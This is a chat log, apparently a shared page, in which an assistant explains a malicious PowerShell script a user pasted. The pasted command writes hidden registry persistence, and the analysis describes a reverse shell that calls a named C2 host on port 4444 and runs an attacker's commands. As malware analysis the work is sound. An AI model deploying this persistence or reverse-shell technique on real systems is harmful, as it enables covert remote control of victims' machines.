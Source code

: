 # Analysis of Malicious PowerShell Script with GPT 5


**Date:** 2025-08-09 16:13:56

---
### User
what does this script tagged as malicious do?  
```
powershell -nop -w hidden -c "$c = 'conhost.exe --headless powershell -nop -w hidden -c '+[char]34+$MyInvocation.MyCommand+[char]34; Set-ItemProperty 'HKCU:SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce' 'windows' 'conhost.exe --headless powershell -nop -w hidden -c cmd /c (Get-ItemProperty -Path ''HKCU:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows'').win'; Set-ItemProperty 'HKCU:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows' 'win' $c; ..."
```
---
### GPT5
Short version: it’s a fileless reverse-shell that makes itself auto-start, then phones home to a hard-coded C2 and lets the attacker run commands on the box.

Here’s what it does, step by step:

-   **Hides & re-launches itself:** runs PowerShell **hidden** via `conhost.exe --headless -w hidden -nop`.
    
-   **Persistence (HKCU):**
    
    -   Sets `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce\windows` to:  
        `conhost.exe --headless powershell -nop -w hidden -c cmd /c (Get-ItemProperty ...\Windows).win`
        
    -   Writes another value `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\win` that contains a command to re-launch the **same script**:  
        `conhost.exe --headless powershell -nop -w hidden -c "<original command>"`
        
    -   The trick is: **RunOnce** executes a one-liner that reads and runs the `...Windows\win` value, and the script writes those registry values again — so it persists across logons despite using “RunOnce.”
        
-   **Decodes its C2:** builds a small Base64 blob backward, which decodes to the hostname **`namoet.de`** (with a trailing newline trimmed).
    
-   **Loads an in-memory .NET implant:** the big `$g` string is C# code written **backwards**. It’s reversed and compiled on the fly with `Add-Type`.
    
    -   Opens a **TCP connection to `namoet.de` on port `4444`**.
        
    -   Immediately sends the **hostname** of the victim (`System.Net.Dns.GetHostName()`).
        
    -   Implements a command loop with **redirected stdin/stdout/stderr** to spawn hidden processes and stream I/O over the socket (classic reverse shell).
        
    -   Supports basic control messages (e.g., start a process, send input, close stdin, kill by PID).
        
    -   If anything fails, it sleeps **30 seconds** and tries again (simple beacon/retry).
        
